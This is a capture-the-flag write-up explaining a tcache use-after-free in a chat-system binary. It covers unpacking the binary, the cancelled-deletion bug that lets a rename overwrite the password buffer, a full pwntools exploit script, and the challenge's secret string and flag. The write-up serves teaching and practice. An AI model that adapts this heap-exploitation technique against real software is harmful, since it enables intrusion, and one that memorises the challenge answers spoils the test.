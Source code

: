 # Chat System Breach - Writeup

---

## Binary Inspection

We begin by analyzing the binary for further reversing and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit statically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary appears to be Packed with UPX.

![Alt text](img/2.png)

---

### Step 3: Unpacking the binary

```bash
$ upx -d main
```

We unpack the binary with UPX tool to make it analyzable .

![Alt text](img/3.png)

---

### Step 4: Checking binary format again

```bash
$ file main
```

Post-unpacking, the binary is stripped of symbol information.

![Alt text](img/4.png)

---

### Step 5: Rechecking security after unpacking

```bash
$ pwn checksec main
```

The `checksec` output for `main` shows: 64-bit AMD architecture, Partial RELRO, no stack canary, NX enabled, and PIE enabled.

![Alt text](img/5.png)

---

## Challenge Overview

This binary implements a chat system vulnerable to a classic **tcache-based use-after-free (UAF)**. Exploiting this UAF allows us to write arbitrary data into the "password" buffer (`s1` chunk), which is critical for bypassing a password check in `verify_password()`. Successfully passing the check triggers a call to `system("./log")` revealing the flag.

---

## Vulnerability Summary

- A 0x40-byte chunk is allocated for the chat name.
- During chat deletion, this chunk is freed and placed into the tcache freelist.
- The deletion can be canceled, leaving the chat struct valid but the name chunk freed.
- The password buffer (`s1`) is later allocated using `malloc(0x40)` — it reuses the freed chunk.
- Renaming the chat writes into the `s1` buffer.
- Writing the correct secret string (`"53cr37_c0d3"`) triggers `system("./log")`.

---

## Exploit Strategy

1. **Create a chat**  
   Allocates:

   - 0x208-byte struct chunk
   - 0x40-byte chunk for the name (stored at `struct->[1]`)

2. **Free the name chunk but cancel deletion**

   - `delete_chat()` frees the name chunk
   - Choose **N** to cancel → struct remains alive
   - Chunk is now in tcache

3. **Allocate the password buffer (`s1`)**

   - `s1 = malloc(0x40)` → reuses the tcache chunk

4. **Rename chat**

   - `rename_chat()` writes into `struct->[1]` → now also `s1`

5. **Write the secret and verify**

   - Input: `"53cr37_c0d3"`
   - Check: `strncmp(s1, "53cr37_c0d3", 11)`
   - Success: `system("./log")`

---

## Code Walkthrough

```c
new_chat():
  malloc(0x208) → struct
  malloc(0x40)  → name_chunk
  store pointer in struct->[1]

delete_chat():
  free(name_chunk)
  prompt (Y/N)
  if N → struct stays, name_chunk freed to tcache

password_alloc():
  s1 = malloc(0x40)  // reuses freed name_chunk

rename_chat():
  read input into struct->[1] (now s1)

verify_password():
  if (!strncmp(s1, "53cr37_c0d3", 11))
    system("./log");
```

---

## Exploit script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      No RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Packer:     Packed with UPX

io = start()

def new_chat(idx, name, msg):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'Name of the chat: ', name.ljust(0x40, b'\x00'))
    io.sendafter(b'reply ASAP :', msg)

def delete_chat(idx, confirm):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'(Y/N):', confirm)

def rename_chat(idx, new_name):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'Name of the chat: ', new_name.ljust(0x40, b'\x00'))

def verify_password():
    io.sendlineafter(b'> ', b'7')

new_chat(0, b'dexter', b'dexter')

delete_chat(0, b'N')

io.sendlineafter(b'> ', b'5')

rename_chat(0, b'53cr37_c0d3')

verify_password()

io.interactive()

```

---

## Result

After successful password verification, the binary executes:

```c
system("./log");
```

This outputs the contents of the `./log` file — presumably the **flag**.

## ![Alt text](img/7.png)

## FLAG

```
RedPointer{9#zF@4T$3n!VmC82&xLpQ1r*X6~dEj}
```
